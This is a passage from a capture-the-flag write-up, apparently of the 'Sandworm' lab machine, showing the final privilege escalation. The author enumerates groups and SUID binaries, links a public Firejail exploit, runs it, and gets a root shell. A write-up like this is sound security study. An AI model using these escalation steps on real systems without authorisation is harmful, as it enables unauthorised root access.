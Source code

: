 ## Final Privesc

After some basic enumeration, we find that we are in the 'jailer' group. We weren't in this group before...

```
atlas@sandworm:/opt/tipnet$ groups
groups
atlas jailer
```

We find that we can run /usr/bin/firejail as root! The executable has the SUID bit set.

```
atlas@sandworm:/opt/tipnet$ find / -perm -4000 -user root 2>/dev/null
find / -perm -4000 -user root 2>/dev/null
/usr/local/bin/firejail
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
/usr/bin/mount
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/su
/usr/bin/fusermount3
```

We just have to use Firejail to privesc now. I find [This](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25).

We open up another shell as atlas by adding our public key into the authorized_keys file.

Now, we transfer the exploit python script to the machine and run it:

```
atlas@sandworm:~$ python3 exploit.py
You can now run 'firejail --join=701433' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
```

Now, we just do what the exploit says and we have a root shell!

```
atlas@sandworm:~$ firejail --join=701433
changing root to /proc/701433/root
Warning: cleaning all supplementary groups
Child process initialized in 8.61 ms
atlas@sandworm:~$ su -
root@sandworm:~# whoami
root
```
